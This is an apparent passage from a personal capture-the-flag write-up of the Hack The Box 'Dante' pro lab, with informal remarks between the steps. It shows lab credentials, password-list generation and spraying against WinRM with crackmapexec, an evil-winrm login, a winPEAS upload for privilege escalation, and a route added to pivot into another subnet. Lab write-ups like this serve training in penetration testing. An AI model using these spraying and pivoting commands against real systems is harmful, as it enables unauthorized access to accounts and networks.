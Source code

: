 `dharding:WestminsterOrange5`

Let's try the creds with evil-winrm too but it was not working.
After logging in ftp the shit doesn't work for some commands because of smn called active and passive ftp.

We have to turn on the passive mode by typing in `passive` and everything will work normally.

The file on it says that the password is same as ftp but with a different number. You can write a script to test that.

But there is `crackmapexec` to do exactly that. 

So we generate the password list

```bash
echo "WestminsterOrange" >> 1.txt
for i in {1..100}; do echo $i; done >> 2.txt
/usr/lib/hashcat-utils/combinator.bin 1.txt 2.txt >> pass.txt

crackmapexec winrm 172.16.1.101 -u dharding -p pass.txt
```

The new password is `WestminsterOrange17`

and we login to winrm 

```
evil-winrm -i 172.16.1.101 -u dharding -p WestminsterOrange17
```

We find the flag in Desktop of dharding now we have to upload winPEAS for priv esc

turns out you can do that through `evil-winrm` 

```
upload /home/HTB/HTB-writeups/Pro-Labs/Dante/assets/winPEASx64.exe
```

## Single or double quotes

You can upgrade to admin from an unquoted service path but I'm not going to do it now because lost fucking metasploit.


# Double Pivot

From what I can understand It's a routing thing not a pivoting thing, that's why we can't access the `.2.*` network. So I have to go to a previously exploited linux machine and add a `.2.*` route and use sshuttle to our machine and access it. The only properly shell accessible with root machine is `.1.10` so we try and test it. 

```bash
ip route add 172.16.2.0/24 via 172.16.1.1
```
`TractorHeadtorchDeskmat`

We do sshuttle things same as before

